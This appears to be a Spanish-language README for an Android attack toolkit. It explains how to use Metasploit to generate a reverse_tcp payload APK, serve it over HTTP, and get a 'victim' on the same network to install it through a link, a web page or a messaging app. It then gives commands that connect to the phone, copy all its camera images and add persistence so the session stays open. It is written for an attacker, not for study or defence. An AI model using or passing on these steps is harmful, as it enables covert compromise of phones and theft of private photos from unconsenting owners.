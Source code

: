 # 0. Requisitos

    Asegurarnos de que tenemos todas las dependencias necesarias para ejecutar el script, como pueden ser:
    - Metasploit
    - Sudo
    - Python3 (Se instalará automáticamente si no se tiene)
    - psmisc (Se instalará automáticamente si no se tiene)

# 1. Genear el payload y configuracion inicial

Para ello utilizamos el comando

```shell
sudo bash config.sh
```

Este comando ejecutara un script encargado de generar un payload con reverse_tcp para un android, por defeto utiliza hostname -I, y para el puerto 4444, pero se puede modificar o en el caso de no ser compatible, utilizando el parametro --ip |-i para el host y --port | -p para el puerto ej:

```shell
sudo bash config.sh -i 192.127.0.80 -p 4443
```

# 2. Conexión con el usuario

> [IMPORTANT] Asegúrate de estar conectado a la misma red que la víctima antes de ejecutar el exploit.

Se creará un apk llamado main.apk
Una vez ejecutado el coamndo anterior aparecerá un mensaje como el siguiente print_green "Archivo main.apk disponible en http://$LOCAL_IP:$PORT_PYTHON/main.apk"
Deverá ser instalado por el usuario victima, ya sea medante la url, desde el index.html de la web, o pasandoselo de cualquier otra forma, como alguna aplicación de mensajería.

# 3. Obtener los datos

Una vez estemos conectados nuestra víctima utilizaremos el siguiente comando

```shell
sudo bash get.sh -u $USER
```

Una vez conectados podemos hacer todo lo que desehemos pero este pack incluye una forma rapida mediante un script de poder descargarnos toda la información que deseemos de nuestra "victima" envie todos las imagenes de su camara a el directorio /data
Tmabién generará un archivo de peristencia para que no cierre sesión en ningun momento, y que siempre que no se apage el dispositivo y permaneza en la misma red se esté conectado.
